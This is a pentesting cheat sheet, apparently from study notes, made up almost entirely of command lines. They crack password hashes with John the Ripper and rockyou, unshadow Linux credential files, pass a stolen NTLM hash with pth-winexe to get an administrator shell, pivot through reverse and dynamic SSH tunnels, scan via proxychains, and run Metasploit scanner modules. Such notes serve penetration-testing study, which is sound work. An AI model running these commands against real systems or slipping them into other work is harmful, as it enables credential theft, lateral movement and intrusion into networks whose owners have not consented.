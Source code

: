 ### Pass the hash

```text
$ hash-identifier

$ john 127.0.0.1.pwdump

$ john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump

$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump

$ unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

$ export
SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
$ pth-winexe -U administrator% //10.11.01.76 cmd
```

## Port Forwarding and Redirection

```text
$ apt-get install rinetd
$ cat /etc/rinetd.conf
# bindadress bindport connectaddress connectport
<proxy-ip> <proxy-in-port> <target-ip> <target-port>
w.x.y.z 53 a.b.c.d 80

$ ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
$ ssh <gateway> -R <remote port to bind>:<local host>:<local port>
$ ssh -D <local proxy port> -p <remote port> <target>

$ ssh -f -N -R 2222:127.0.0.1:22 root@208.68.234.100
$ netstat -lntp
$ ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r@127.0.0.1
$ netstat -lntp
$ proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24
```

### HTTP tunneling

`$ nc -vvn 192.168.1.130 8888`

## Metasploit Framework

```text
$ systemctl start postgresql
$ systemctl enable postgresql //to autostart at boot
$ msfconsole

msf > show -h
msf> use auxiliary/scanner/snmp/snmp_enum
msf> use auxiliary/scanner/smb/smb_version
msf> use auxiliary/scanner/http/webdav_scanner
msf > services -p 443
```

